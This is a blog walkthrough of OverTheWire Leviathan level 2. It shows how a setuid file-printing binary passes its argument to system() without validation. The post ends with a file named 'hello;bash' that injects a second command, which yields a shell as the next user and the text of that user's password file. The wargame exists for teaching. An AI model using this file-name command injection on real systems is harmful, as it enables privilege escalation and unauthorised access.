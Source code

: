 ```yaml
---
title: OverTheWire Leviathan Level 2
date: 2022-03-02 22:30:00 +0000
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
description: Solution for OverTheWire Leviathan level 2 challenge
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 2](https://overthewire.org/wargames/leviathan/leviathan2.html){:target="\_blank"}

Login to the server using the password obtained from the previous level [Leviathan level 1]({% post_url 2022-02-28-overthewire-leviathan-1 %}).  

username: `leviathan2`  

```ssh
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ 
```

There is a executable named `printfile` that will run with leviathan3 permissions.

When running the file we find out it takes a file name as it's argument.

```console
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

Since it runs with `leviathan3` permissions we can try printing the password file leviathan3.

```console
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` we can begin to see what the executable is doing.

```console
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                  = -1
puts("You cant have that file..."You cant have that file...
)                                                            = 27
+++ exited (status 1) +++
```

The first thing it does is call `access`. Access is used to check if the user has permission to access the given file, it also dereferences symbolic links so we cannot create a simlink to the password file.  

```text
access() 
    checks whether the calling process can access the file pathname.  
    If pathname is a symbolic link, it is dereferenced.
```

So we have seen what happens when we do not have permission to read a file, what happens when we do have the correct permission.
We create a file `sayHello` and write 'hello' to the file.
When we run `printfile` on sayHello we get the text 'hello' back.

```console
leviathan2@leviathan:/tmp/mine2$ echo "hello" > sayHello
leviathan2@leviathan:/tmp/mine2$ ls
sayHello

leviathan2@leviathan:/tmp/mine2$ ~/printfile sayHello 
hello
```

Now we can use ltrace to dig deeper into what `printfile` is doing.

```console
leviathan2@leviathan:/tmp/mine2$ ltrace ~/printfile sayHello 
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("sayHello", 4)                                             = 0
snprintf("/bin/cat hello", 511, "/bin/cat %s", "sayHello")        = 14
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat sayHello"hello
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```

We can see that the file is  

- checking if we have permission to access the file
- getting the effective uid
- setting the effective uid to leviathan3
- using system to run /bin/cat on the given file

Since the input is being passed directly to `system` it is not performing any validation.
We can pass other commands by creating files with special characters like `;` which is used to enter multiple commands in the terminal.

```console
leviathan2@leviathan:/tmp/mine2$ touch 'hello;bash'

leviathan2@leviathan:/tmp/mine2$ ~/printfile 'hello;bash' 
/bin/cat: hello: No such file or directory
leviathan3@leviathan:/tmp/mine2$ 
```

Now we have a shell as `leviathan3`, we can read the password file.

```console
leviathan3@leviathan:/tmp/min2$ cat /etc/leviathan_pass/leviathan3
Ahd*******
```
